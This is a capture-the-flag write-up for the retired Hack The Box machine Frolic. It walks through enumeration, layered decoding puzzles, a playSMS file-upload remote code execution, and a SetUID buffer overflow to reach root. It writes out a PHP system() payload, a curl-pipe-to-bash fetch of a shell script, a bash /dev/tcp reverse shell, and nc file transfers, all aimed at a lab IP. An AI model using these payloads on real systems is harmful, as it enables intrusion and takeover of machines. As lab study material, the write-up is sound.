





# Frolic

This is the write-up for the box Frolic that got retired at the 23rd March 2019.
My IP address was 10.10.14.18 while I did this.

Let's put this in our hosts file:
```
10.10.10.111    frolic.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/frolic.nmap 10.10.10.111
```

```
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 87:7b:91:2a:0f:11:b6:57:1e:cb:9f:77:cf:35:e2:21 (RSA)
|   256 b7:9b:06:dd:c2:5e:28:44:78:41:1e:67:7d:1e:b7:62 (ECDSA)
|_  256 21:cf:16:6d:82:a4:30:c3:c6:9c:d7:38:ba:b5:02:b0 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
9999/tcp open  http        nginx 1.10.3 (Ubuntu)
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Welcome to nginx!
Service Info: Host: FROLIC; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking SMB (Port 445)

Enumerating SMB shares with **SMBmap**:
```
smbmap -H 10.10.10.111
```

There are two but shares but access is denied:
```
Disk      Permissions     Comment
----      -----------     -------
print$    NO ACCESS       Printer Drivers
IPC$      NO ACCESS       IPC Service (frolic server (Samba, Ubuntu))
```

## Checking HTTP (Port 9999)

The web page shows the welcome page of **nginx** and at the bottom of the text is a hostname and a port:
```
(...)
Thank you for using nginx. http://forlic.htb:1880
```

On the HTTP page on port 1880 it has **Node-RED** installed and shows a login form to it:



Lets put _forlic.htb_ into the _/etc/hosts_ file and search for hidden directories with **Gobuster**:
```
gobuster -u http://10.10.10.111:9999 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

If finds the following directories:
- _/admin_
  - Custom login form:



- _/test_
  - Shows _phpinfo_

- _/dev_
  - HTTP status code _403 Forbidden_

- _/backup_
  - Shows the following text:
  ```
  password.txt
  user.txt
  loop/
  ```
  - It is possible to browse to the files and directories in _/backup_:
    - _/backup/password.txt_
      - password - imnothuman
    - _/backup/user.txt_
      - user - admin
    - _/backup/loop_
      - HTTP status code _403 Forbidden_

- _/loop_
  - HTTP status code _403 Forbidden_

Lets search for hidden directories in all of those directories:
```
gobuster -u http://10.10.10.111:9999/admin dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
gobuster -u http://10.10.10.111:9999/test dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
gobuster -u http://10.10.10.111:9999/dev dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
gobuster -u http://10.10.10.111:9999/backup dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
gobuster -u http://10.10.10.111:9999/loop dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
```

The directory tree looks like this:
- /admin
  - /cs (403)
  - /js (403)
- /test
- /dev
  - /test
  - /backup
- /backup
  - /loop (403)
- /loop
  - /loop (403)

The directory _/dev/test_ downloads a test file that is useless.
The directory _/dev/backup_ discloses another directory called _/playsms_.

### Analyzing directory /admin

After trying the found credentials on this login prompt, it says that there are two more attempts left, but submitting does not send any HTTP requests that can be analyzed.
In the HTML source code, it refers to _login.js_ which is responsible for that behavior and has credentials in it:
```js
// (...)
if ( username == "admin" && password == "superduperlooperpassword_lol")
alert ("Login successfully");
window.location = "success.html"; // Redirecting to other page.
// (...)
```

The credentials work and forward to _admin/success.html_ with encoded text:
```
..... ..... ..... .!?!! .?... ..... ..... ...?. ?!.?. ..... ..... .....
..... ..... ..!.? ..... ..... .!?!! .?... ..... ..?.? !.?.. ..... .....
....! ..... ..... .!.?. ..... .!?!! .?!!! !!!?. ?!.?! !!!!! !...! .....
..... .!.!! !!!!! !!!!! !!!.? ..... ..... ..... ..!?! !.?!! !!!!! !!!!!
!!!!? .?!.? !!!!! !!!!! !!!!! .?... ..... ..... ....! ?!!.? ..... .....
..... .?.?! .?... ..... ..... ...!. !!!!! !!.?. ..... .!?!! .?... ...?.
?!.?. ..... ..!.? ..... ..!?! !.?!! !!!!? .?!.? !!!!! !!!!. ?.... .....
..... ...!? !!.?! !!!!! !!!!! !!!!! ?.?!. ?!!!! !!!!! !!.?. ..... .....
..... .!?!! .?... ..... ..... ...?. ?!.?. ..... !.... ..... ..!.! !!!!!
!.!!! !!... ..... ..... ....! .?... ..... ..... ....! ?!!.? !!!!! !!!!!
!!!!! !?.?! .?!!! !!!!! !!!!! !!!!! !!!!! .?... ....! ?!!.? ..... .?.?!
.?... ..... ....! .?... ..... ..... ..!?! !.?.. ..... ..... ..?.? !.?..
!.?.. ..... ..!?! !.?.. ..... .?.?! .?... .!.?. ..... .!?!! .?!!! !!!?.
?!.?! !!!!! !!!!! !!... ..... ...!. ?.... ..... !?!!. ?!!!! !!!!? .?!.?
!!!!! !!!!! !!!.? ..... ..!?! !.?!! !!!!? .?!.? !!!.! !!!!! !!!!! !!!!!
!.... ..... ..... ..... !.!.? ..... ..... .!?!! .?!!! !!!!! !!?.? !.?!!
!.?.. ..... ....! ?!!.? ..... ..... ?.?!. ?.... ..... ..... ..!.. .....
..... .!.?. ..... ...!? !!.?! !!!!! !!?.? !.?!! !!!.? ..... ..!?! !.?!!
!!!!? .?!.? !!!!! !!.?. ..... ...!? !!.?. ..... ..?.? !.?.. !.!!! !!!!!
!!!!! !!!!! !.?.. ..... ..!?! !.?.. ..... .?.?! .?... .!.?. ..... .....
..... .!?!! .?!!! !!!!! !!!!! !!!?. ?!.?! !!!!! !!!!! !!.!! !!!!! .....
..!.! !!!!! !.?.
```

This encoding is from the **Ook! programming language** and [dCode.fr](https://www.dcode.fr/ook-language) has a decoder for it and it says:
```
Nothing here check /asdiSIAJJ0QWE9JAS
```

The directory _/asdiSIAJJ0QWE9JAS_ has another encoded string:
```
UEsDBBQACQAIAMOJN00j/lsUsAAAAGkCAAAJABwAaW5kZXgucGhwVVQJAAOFfKdbhXynW3V4CwAB BAAAAAAEAAAAAF5E5hBKn3OyaIopmhuVUPBuC6m/U3PkAkp3GhHcjuWgNOL22Y9r7nrQEopVyJbs K1i6f+BQyOES4baHpOrQu+J4XxPATolb/Y2EU6rqOPKD8uIPkUoyU8cqgwNE0I19kzhkVA5RAmve EMrX4+T7al+fi/kY6ZTAJ3h/Y5DCFt2PdL6yNzVRrAuaigMOlRBrAyw0tdliKb40RrXpBgn/uoTj lurp78cmcTJviFfUnOM5UEsHCCP+WxSwAAAAaQIAAFBLAQIeAxQACQAIAMOJN00j/lsUsAAAAGkC AAAJABgAAAAAAAEAAACkgQAAAABpbmRleC5waHBVVAUAA4V8p1t1eAsAAQQAAAAABAAAAABQSwUG AAAAAAEAAQBPAAAAAwEAAAAA
```

This is **Base64-encoded** but spaces are invalid characters, that have to be removed and then it can be decoded:
```
cat b64-encoded.txt | base64 -d > b64-decoded
```

It is not readable and `file` tells that it is **Zip archive data**, so decompressing it:
```
mv b64-decoded b64-decoded.zip

unzip b64-decoded.zip
```

It asks for a password and none of the gathered passwords work, so trying to crack it with **JohnTheRipper**:
```
zip2john b64-decoded.zip > b64-decoded.zip.hash

john --wordlist=/usr/share/wordlist/rockyou.txt b64-decoded.zip.hash
```

The password to decompress the _zip file_ is _"password"_ and it contains _index.php_ with another decoded string:
```
4b7973724b7973674b7973724b7973675779302b4b7973674b7973724b7973674b79737250463067506973724b7973674b7934744c5330674c5330754b7973674b7973724b7973674c6a77720d0a4b7973675779302b4b7973674b7a78645069734b4b797375504373674b7974624c5434674c53307450463067506930744c5330674c5330754c5330674c5330744c5330674c6a77724b7973670d0a4b317374506973674b79737250463067506973724b793467504373724b3173674c5434744c53304b5046302b4c5330674c6a77724b7973675779302b4b7973674b7a7864506973674c6930740d0a4c533467504373724b3173674c5434744c5330675046302b4c5330674c5330744c533467504373724b7973675779302b4b7973674b7973385854344b4b7973754c6a776743673d3d0d0a
```

This is **Hex-encoding** that can be decoded with `xxd`:
```
cat index.php | xxd -r -p > index.php.b64
```
```
KysrKysgKysrKysgWy0+KysgKysrKysgKysrPF0gPisrKysgKy4tLS0gLS0uKysgKysrKysgLjwr
KysgWy0+KysgKzxdPisKKysuPCsgKytbLT4gLS0tPF0gPi0tLS0gLS0uLS0gLS0tLS0gLjwrKysg
K1stPisgKysrPF0gPisrKy4gPCsrK1sgLT4tLS0KPF0+LS0gLjwrKysgWy0+KysgKzxdPisgLi0t
LS4gPCsrK1sgLT4tLS0gPF0+LS0gLS0tLS4gPCsrKysgWy0+KysgKys8XT4KKysuLjwgCg==
```

This is a **Bas64-encoded** string and after removing the new lines, it can be decoded correctly:
```
base64 -d index.php.b64
```
```
+++++ +++++ [->++ +++++ +++<] >++++ +.--- --.++ +++++ .<+++ [->++ +<]>+
++.<+ ++[-> ---<] >---- --.-- ----- .<+++ +[->+ +++<] >+++. <+++[ ->---
<]>-- .<+++ [->++ +<]>+ .---. <+++[ ->--- <]>-- ----. <++++ [->++ ++<]>
++..<
```

This encoding is from the **Brainfuck programming language** and [dCode.fr](https://www.dcode.fr/brainfuck-language) has a decoder for it and it says:
```
idkwhatispass
```

That seems to be the end of the decoding challenge and the final password is _idkwhatispass_.

### Analyzing directory /playsms

The directory _/playsms_ forwards to a login form for the software [playSMS](https://playsms.org/), which is an **Open-Source SMS Gateway**.



The username _admin_ and the password _idkwhatispass_ works and logs us in.

When searching for known exploits for this software, there is a **Remote Code Execution / Unrestricted File Upload vulnerability** that could work:
```
searchsploit playsms

PlaySMS 1.4 - '/sendfromfile.php' Remote Code Execution / Unrestricted File Upload
```

The vulnerability is in the _"Send from file"_ feature:
```
My account --> Send from file
```



By uploading a CSV file with PHP code as one of the fields, it is possible to execute code.
Contents of the CSV file:
```
<?php system('whoami'); ?>,2,3
```

After uploading, the contents of the first field is the output of `whoami` and proofs command execution:



Lets start a reverse shell connection:
```
<?php system('curl 10.10.14.18/shell.sh | bash'); ?>,2,3
```

Shell command in _shell.sh_:
```
bash -c 'bash -i >& /dev/tcp/10.10.14.18/9001 0>&1'
```

After uploading the CSV file, the _shell.sh_ gets downloaded and the listener on my IP and port 9001 starts a reverse shell connection as _www-data_.

## Privilege Escalation

In the home directory _/home/ayush/.binary_ is a binary file called _rop_ that has the **SetUID bit** set.
We should download the file to analyze it on our local box in a debugger.
```
# On local client
nc -lvnp 9002 > rop

# On box
nc 10.10.14.18 9002 < rop
```

Running the binary in **gdb**:
```
gdp rop
```

Creating a unique pattern with 100 characters and executing it with that as an argument:
```
pattern create 100

r aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaab
```

It exits with a **Segmentation fault** and thus may have a **Buffer Overflow vulnerability**:
```
Id 1, Name: "rop", stopped 0x6161616e in ?? (), reason: SIGSEGV
```

Getting the offset of the pattern:
```
pattern offset 0x6161616e

[+] Searching '0x6161616e'
[+] Found at offset 52 (little-endian search)
```

There are some more information needed to write exploit code.

Location of **libc**:
```
ldd rop

libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e19000)
```

Getting the address of **libc system**:
```
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system

# Frolic
0003ada0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
```

Getting the address of **libc exit**:
```
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit

# Frolic
0002e9d0    31 FUNC    GLOBAL DEFAULT   13 exit@@GLIBC_2.0
```

Getting address of _/bin/sh_ in **libc**:
```
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh

# Frolic
15ba0b /bin/sh
```

When getting all of those addresses, exploit code can be created and the Python script _frolic_bof.py_ can be found in this repository.

Executing the binary _rop_ with the script as an argument:
```
./rop $(python /dev/shm/frolic_bof.py)
```

After executing, it spawns a shell as root!
